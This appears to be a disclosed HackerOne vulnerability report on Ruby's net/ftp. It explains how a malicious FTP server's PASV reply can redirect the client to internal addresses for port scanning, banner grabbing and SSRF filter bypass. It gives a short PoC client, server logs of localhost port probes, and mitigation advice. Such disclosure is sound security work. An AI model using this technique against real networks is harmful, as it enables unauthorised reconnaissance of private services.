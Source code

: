 # lib/net/ftp.rb: trusting PASV responses allow client abuse

## Report Details
- **Report ID**: 1145454
- **URL**: https://hackerone.com/reports/1145454
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-04-02T15:56:47.192Z
- **Disclosed**: 2021-07-08T15:34:41.703Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
When `net/ftp` performs a passive FTP transfer, it tries to using PASV.  Passive mode is what `net/ftp` uses by default.
A server response to a PASV command includes the (IPv4) address and port number for the client to connect back to in order to perform the actual data
transfer.

This is how the FTP protocol is designed to work.[^1] 

A malicious server can use the PASV response to trick `net/ftp` into connecting back to a given IP address and port, and this way potentially make it extract information about services that are otherwise private and not disclosed, for example doing port scanning and service banner extractions.
If `net/ftp` operates on a URL provided by a user (with by all means is an unwise setup), a user can exploit that and pass in a URL to a malicious FTP server instance without needing any server breach to perform the attack.

Other FTP clients have in the past also had this flaw and have fixed it at different points in time:
* Chrome in 2009: https://github.com/chromium/chromium/commit/a1cea36673186829ab5d1d1408ac50ded3ca5850
* Curl in 2020 (CVE-2020-8284) : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284
* Firefox in 2007 (CVE-2007-1562): https://bugzilla.mozilla.org/show_bug.cgi?id=370559. In that bugzilla issue there's also a link to paper that describes exactly this and lists a few affected clients (link to archive.org since the original has vanished) https://web.archive.org/web/20070317052623/http://bindshell.net/papers/ftppasv/ftp-client-pasv-manipulation.pdf

[^1]: With one exception: EPSV. The correct behaviour is  first try the EPSV command and if that is not supported,  fall back to using PASV.

## Impact

This behavior is by design (unless `EPSV ALL` is sent) but it could still lead to security issues depending on the context. 
I encountered this issue within a web application with a server-side request forgery (SSRF) issue (but this issue applies to any form of SSRF with `net/ftp` as the request processor). In that context, one can get the following additional capabilities:

* Reliable tcp port scanning (this is not normally possible by just providing a random ip:port to `net/ftp`)
* Network service banner extraction (we setup the data channel on the target ip:port and extract for example an ssh banner: `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8` without any errors)
* Potential bypass of ip/port restrictions, e.g. the server might be filtering internal IPs or allowing only specific ports (but still allowing FTP)

# PoC

I used the following simple code:
```ruby
require 'net/ftp'
ftp = Net::FTP.new
ftp.connect(ARGV[0], ARGV[1])
ftp.login
#ftp.passive = true # by default
ftp.getbinaryfile('/whatever', 'whatever')
ftp.close
```
And the custom ftp-server:
```
[Parent] Got connection from 192.168.100.2:43520... Spawned process 31749 to handle connection
[PID 31749] SEND: 220 FTP PASV Demo Server v1.0
[PID 31749] RECV: USER anonymous
[PID 31749] SEND: 331 Please specify the password.
[PID 31749] RECV: PASS anonymous@
[PID 31749] SEND: 230 Login successful.
[PID 31749] RECV: TYPE I
[PID 31749] SEND: 200 Switching to Binary mode.
[PID 31749] RECV: PASV
[PID 31750] Handling incoming request to PASV port
>>> Sending 127.0.0.1:8123
[PID 31750] SEND: 227 Entering Passive Mode (127,0,0,1,31,187)
[PID 31750] Exiting
-------------------------------- The Port is Open ---------------------------------
[PID 31749] RECV: RETR /whatever
[PID 31749] SEND: 150 Opening BINARY mode data connection for /whatever (0 bytes).
[PID 31749] SEND: 226 File send OK.
[PID 31749] Exiting
----------------------------------------------------------------------------------
[Parent] Got connection from 192.168.100.2:43524... Spawned process 31787 to handle connection
[PID 31787] SEND: 220 FTP PASV Demo Server v1.0
[PID 31787] RECV: USER anonymous
[PID 31787] SEND: 331 Please specify the password.
[PID 31787] RECV: PASS anonymous@
[PID 31787] SEND: 230 Login successful.
[PID 31787] RECV: TYPE I
[PID 31787] SEND: 200 Switching to Binary mode.
[PID 31787] RECV: PASV
[PID 31788] Handling incoming request to PASV port
>>> 127.0.0.1:8080
[PID 31788] SEND: 227 Entering Passive Mode (127,0,0,1,31,144)
[PID 31788] Exiting
------------------------------- The Port is Closed --------------------------------
[PID 31787] RECV: ERROR: unmatched reply
[PID 31787] Exiting
----------------------------------------------------------------------------------
```

# Mitigation

Currently, `net/ftp` can mitigate this flaw by disabling passive mode, which is enabled by default.  But this is not the best solution to this problem, perhaps, as well as disabling passive mode by default.

For example, firefox just ignores the ip address that is sent from the server. But Curl provides the option which tell to not use the IP address the server suggests in its response to curl's PASV command when curl connects the data connection. Instead curl will re-use the same IP address it already uses for the control connection. The second seems more reasonable.

## Attachments
No attachments
